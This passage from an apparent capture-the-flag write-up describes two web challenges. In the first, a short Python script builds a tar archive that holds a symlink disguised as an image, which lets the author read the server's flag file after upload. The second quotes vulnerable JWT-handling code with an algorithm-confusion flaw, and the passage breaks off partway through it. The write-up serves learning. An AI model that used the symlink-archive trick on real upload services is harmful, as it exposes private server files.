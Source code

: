 ```py
            os.rename(file_path, os.path.join(EXTRACT_FOLDER, file.filename))
            return render_template("success.html")
    return render_template("index.html")
```

This allows for us to use the zipslip vulnerability to read the flag. In order to do this we can create a fake image file and symlink it to the flag.
In order to do this I wrote a small script:
```py
import tarfile
import os

# Make a tar with a symlink that looks like an image file
with tarfile.open("exploit.tar", "w") as tar:
    # Create a symlink entry named 'exploit.jpg' pointing to '/flag'
    info = tarfile.TarInfo(name="exploit.jpg")
    info.type = tarfile.SYMTYPE
    info.linkname = "/flag.txt"  # Path to the real flag on server
    tar.addfile(info)
```

After uploading it we can then navigate to <http://photo-album.hkn/static/albums/exploit.jpg> to get the flag. Usually a browser will fail to render the image as it only contains the flag.
Instead we can just send a request in a proxy like Burpsuite and we can see the flag in the response:
![Flag for Photo Album](/DDC25National/albumFlag.png)

``DDC{f4k3_im4g3_r34l_fl4g}``

### BugTracker
###### 100pts - 25 solves
> Her er vores bugtracker - hvor vi har helt styr på næsten alle fejl.

This challenge uses JWTs to handle authentication. There is however a small flaw in the validation of these:
```py
def generate_jwt(username, role, algorithm="RS256"):
    payload = {
        "username": username,
        "role": role,
        "exp": datetime.datetime.utcnow() + datetime.timedelta(minutes=30)
    }
    if algorithm == "RS256":
        token = jwt.encode(
            payload,
            SKEY,
            algorithm="RS256"
        )
    elif algorithm == "HS256":
        token = jwt.encode(
            payload,
            SKEY,
            algorithm="HS256"
        )
    else:
        raise ValueError(f"Unsupported algorithm: {algorithm}")
    return token

def decode_jwt(token):
    header = jwt.get_unverified_header(token)
    alg = header.get("alg")

    if alg == "HS256":
        key_obj = serialization.load_pem_public_key(
```
